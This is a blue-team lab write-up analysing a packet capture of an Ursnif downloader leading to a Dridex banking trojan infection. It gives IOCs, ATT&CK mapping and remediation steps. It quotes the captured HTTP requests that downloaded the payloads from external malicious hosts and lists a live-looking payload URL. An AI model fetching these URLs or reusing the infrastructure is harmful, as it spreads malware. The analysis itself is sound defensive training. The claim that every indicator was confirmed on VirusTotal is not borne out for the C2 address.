# Network Analysis – Malware Compromise

**Platform:** Blue Team Labs Online — [Challenge Link](https://blueteamlabs.online/home/challenge/network-analysis-malware-compromise-e882f32908)
**Capture file:** `traffic-with-dridex-infection.pcap`
**Tools used:** Wireshark, VirusTotal, PowerShell (`Get-FileHash`)

---

## At a Glance

| | |
|---|---|
| **Initial Access Vector** | Phishing email with macro-enabled attachment |
| **Malware Family** | Ursnif (downloader) → Dridex (banking trojan) |
| **Infected Host** | `10.11.27.101` |
| **First-Stage Domain** | `klychenogg.com` |
| **Second-Stage Payload Host** | `95.181.198.231` |
| **C2 Confirmed** | `185.244.150.230` |
| **Outcome** | Full infection chain reconstructed, IOCs extracted, and confirmed malicious via VirusTotal |

---

## 1. Executive Summary

An employee's workstation (`10.11.27.101`) was infected after opening a malicious macro-enabled document delivered under the guise of a customer invoice. The macro caused the host to retrieve a first-stage **Ursnif** downloader from `klychenogg.com`, followed by beacon-style HTTP traffic to `cochrimato.com`. Ursnif then retrieved a follow-up **Dridex** banking trojan payload from `95.181.198.231`. Post-infection command-and-control traffic to `185.244.150.230` was subsequently observed, consistent with known Dridex infrastructure. Every identified domain and IP was independently confirmed as malicious via VirusTotal, and the full chain was validated against the challenge's official answer key.

## 2. Scenario

The investigation began with a SIEM alert flagging outbound connections to a known-malicious domain from the workstation of an accountant who regularly handles high volumes of external email. Email gateway logs did not initially raise suspicion, since the messages appeared to come from legitimate customer addresses. When contacted, the user confirmed she had opened what looked like a customer invoice containing a macro, and that the associated application crashed shortly afterward. The SOC team pulled the network capture for the host to determine root cause.

## 3. Infection Chain



## 4. Capture File Metadata



| Field | Value |
|---|---|
| File name | `traffic-with-dridex-infection.pcap` |
| SHA256 | `f909b9ad9565c1a32a4ac11d2f2cf3c9d33a2a0ac318747f2a87ea8412da5105` |
| First packet | 2018-11-27 22:00:12 |
| Last packet | 2018-11-27 22:42:16 |
| Duration | 00:42:03 |
| Total packets | 2,053 |

*Packet-level timestamps in the screenshots below reflect Wireshark's local display timezone; the table above reflects the capture file's absolute metadata.*

## 5. Investigation Walkthrough

### 5.1 Identifying the Infected Host



`Statistics → Conversations (IPv4)` immediately isolates a single internal host, `10.11.27.101`, communicating with multiple external addresses — the starting point for the rest of the investigation.

### 5.2 Protocol Overview



The protocol hierarchy shows traffic is overwhelmingly TCP (99.2%), with HTTP layered on top — consistent with a malware family that uses plain HTTP for both payload delivery and C2 rather than a custom protocol.

### 5.3 TCP-Level Conversations



Breaking conversations down by TCP stream surfaces the specific external hosts and ports involved, including repeated short-lived connections to several IPs later confirmed as malicious.

### 5.4 Suspicious HTTP GET Requests



Filtering on `http.request.method == GET` lays out the infection chain in sequence: a request for `tewokl.php?l=spet10.spr`, several `/images/...` requests to a second domain, and finally a request for a `.rar` archive.

### 5.5 Initial Payload Retrieval (Ursnif)



Following the first HTTP stream reveals the macro-triggered request:

```
GET /QIC/tewokl.php?l=spet10.spr HTTP/1.1
Host: klychenogg.com
Content-Disposition: attachment; filename="spet10.spr"
```

This is the Ursnif first-stage downloader binary, served as `application/octet-stream`.

### 5.6 Exported HTTP Objects



Exporting all HTTP objects confirms every file transferred during the session:

| Hostname | Filename | Content-Type | Size |
|---|---|---|---|
| klychenogg.com | tewokl.php?l=spet10.spr | application/octet-stream | 261 kB |
| cochrimato.com | ojw.avi | text/html | 214 kB |
| cochrimato.com | favicon.ico | image/vnd.microsoft.icon | 5,430 bytes |
| cochrimato.com | 6.avi | text/html | 273 kB |
| cochrimato.com | timxEQW.avi | text/html | 2,352 bytes |
| 95.181.198.231 | oiioiashdqbwe.rar | application/rar | 254 kB |

The `.avi`-named files actually being served as `text/html` is a **masquerading** technique — it makes beacon/check-in traffic look like harmless media requests to a casual observer or naive proxy rule.

### 5.7 Dridex Follow-Up Payload



A later HTTP stream shows Ursnif retrieving its follow-up payload:

```
GET /oiioiashdqbwe.rar HTTP/1.1
Host: 95.181.198.231
```

Per the challenge's confirmed findings, this `.rar` archive is the Dridex banking trojan.

### 5.8 Confirming Both Payloads Share Infrastructure



Filtering directly on `ip.dst == 95.181.198.231` returns both the `tewokl.php` request and the `.rar` request, confirming `klychenogg.com` resolves to the same infrastructure that later served the Dridex payload — the two stages are not independent actors, but a single operation.

### 5.9 Extracting and Hashing Retrieved Files



Exported objects were saved locally and hashed with `Get-FileHash` (SHA256) **before** any VirusTotal lookup. Files were never executed at any point in this investigation.

## 6. Threat Intelligence Correlation

| Indicator | VirusTotal Result | Evidence |
|---|---|---|
| `klychenogg.com` | 12/89 vendors flagged malicious — tagged spyware/malware, phishing, potential-c2 |  |
| `cochrimato.com` | 8/89 vendors flagged malicious — same tag set |  |
| `95.181.198.231` | 4/89 vendors flagged malicious/phishing — geolocated to Russia |  |

## 7. Challenge Confirmation



All submitted answers were confirmed correct against the platform's answer key, validating the findings above.

## 8. Indicators of Compromise (IOCs)

| Type | Value | Notes |
|---|---|---|
| Internal IP | `10.11.27.101` | Infected host |
| Domain | `klychenogg.com` | Hosts Ursnif first-stage downloader |
| Domain | `cochrimato.com` | Beacon-style HTTP traffic disguised as `.avi` requests |
| External IP | `95.181.198.231` | Hosts Dridex payload; also serves `klychenogg.com` traffic |
| URL | `http://95.181.198.231/oiioiashdqbwe.rar` | Dridex follow-up payload |
| External IP | `185.244.150.230` | Dridex post-infection C2 |
| File | `spet10.spr` (Ursnif downloader) | See screenshot 10 for hash — verify before publishing externally |
| File | `oiioiashdqbwe.rar` (Dridex archive) | See screenshot 10 for hash — verify before publishing externally |

## 9. MITRE ATT&CK Mapping

| Technique ID | Technique Name | Evidence |
|---|---|---|
| T1566.001 | Phishing: Spearphishing Attachment | Macro document delivered as a fake customer invoice |
| T1204.002 | User Execution: Malicious File | User opened the attachment, triggering the macro |
| T1059.005 | Command and Scripting Interpreter: VBA | Macro execution initiated the infection chain |
| T1105 | Ingress Tool Transfer | Retrieval of `spet10.spr` and `oiioiashdqbwe.rar` over HTTP |
| T1071.001 | Application Layer Protocol: Web Protocols | HTTP used for both delivery and beaconing |
| T1036 | Masquerading | Files served with `.avi` extensions despite HTML/executable content |

## 10. Timeline

| Time | Event |
|---|---|
| 16:30:15 | Initial GET to `klychenogg.com` for `tewokl.php?l=spet10.spr` — Ursnif downloader retrieved |
| 16:30:37 – 16:30:41 | Multiple `/images/` GET requests to `cochrimato.com` — beaconing traffic |
| 16:38:39 | GET to `95.181.198.231` for `oiioiashdqbwe.rar` — Dridex payload retrieved |
| Post-infection | Outbound traffic to `185.244.150.230` — Dridex C2 |

## 11. Detection & Prevention Recommendations

- **Block Office macros from internet-sourced files** via GPO/ASR rules (Mark-of-the-Web enforcement) — this single control would have stopped the chain at step one.
- **Sandbox macro-enabled attachments** at the email gateway before delivery, rather than relying on reputation alone.
- **Proxy/firewall category filtering** on newly registered or low-reputation domains — both `klychenogg.com` and `cochrimato.com` carry `nxdomain`/`potential-c2` tags that fit known-bad infrastructure patterns.
- **Egress filtering** on outbound `.rar`/executable downloads over plain HTTP from non-approved file-sharing sources.
- **IDS/IPS signatures** tuned to known Ursnif/Dridex User-Agent strings and URI patterns (e.g. `.php?l=` style query parameters).
- **Hunt across the environment** using the extracted file hashes and domains to identify any other hosts that reached the same infrastructure.

## 12. Conclusion & Remediation

- Isolate `10.11.27.101` from the network immediately.
- Block `klychenogg.com`, `cochrimato.com`, `95.181.198.231`, and `185.244.150.230` at the firewall/proxy.
- Reset the affected user's credentials and review for signs of lateral movement.
- Search organization-wide email logs for the same sender/attachment pattern to catch other potential victims.
- Submit extracted file hashes to EDR tooling to hunt for the same Ursnif/Dridex samples elsewhere in the environment.
- Reinforce user awareness training on macro-enabled attachments from external senders.

## 13. Skills Demonstrated

- Network traffic triage and anomaly identification in Wireshark
- HTTP stream reconstruction and payload extraction
- Malware infection-chain analysis (downloader → banking trojan)
- Safe artifact handling — hashing without execution
- Threat intelligence correlation via VirusTotal
- MITRE ATT&CK technique mapping
- Incident timeline reconstruction
- SOC-style reporting with actionable containment and detection recommendations

## 14. References

- [BTLO Challenge: Network Analysis – Malware Compromise](https://blueteamlabs.online/home/challenge/network-analysis-malware-compromise-e882f32908)

